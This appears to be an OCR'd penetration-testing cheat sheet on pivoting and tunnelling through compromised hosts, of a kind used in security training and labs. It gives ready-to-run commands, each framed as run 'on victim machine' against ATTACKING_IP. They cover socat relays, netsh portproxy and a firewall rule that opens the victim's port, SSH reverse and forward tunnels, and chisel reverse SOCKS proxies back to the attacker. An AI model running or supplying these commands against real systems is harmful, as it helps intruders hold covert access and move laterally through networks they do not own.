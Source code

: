 ```

### Socat
- On victim machine run
```
./socat tcp-l:33060,fork,reuseaddr tcp:<Remote IP>:3306 &
```
- Traffic directed at 33060 will be forwarded to 172.16.0.10:3306
### NetSH
- On victim machine run
```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=<Local> connectport=22 connectaddress=<Remote>
```
- If necessary open firewall port with
```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=<Local> localport=2222 action=allow
```


./socat tcp-l:8001,fork,reuseaddr tcp:127.0.0.1:631 &
# Tunneling
### Reverse

#### SSH 
- Start SSH on attacker machine with
```
sudo systemctl start ssh
```

- On victim machine run
```
ssh -R 8000:<Remote>:80 kali@<Local> -i keyfile -fN
```
- Anything directed at local host 8000 on attacker machine will hit 10.10.10.10:80
##### Reverse SOCKS
- On victim machine run
```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```
- Now use proxychains / foxy proxy to proxy traffic through the victim
#### Chisel
- Victim machine
```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```
- Direct traffic at the local port
- Attacker machine
```
./chisel server -p LISTEN_PORT --reverse &
```

##### Reverse SOCKS Proxy
On Attacker Box run
```
./chisel server -p LISTEN_PORT --reverse &
```
On Compromised box run
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```
### Forward
#### SSH
- Attacker machine run
```
ssh -L 8000:Remote:80 user@Victim -fN
```
```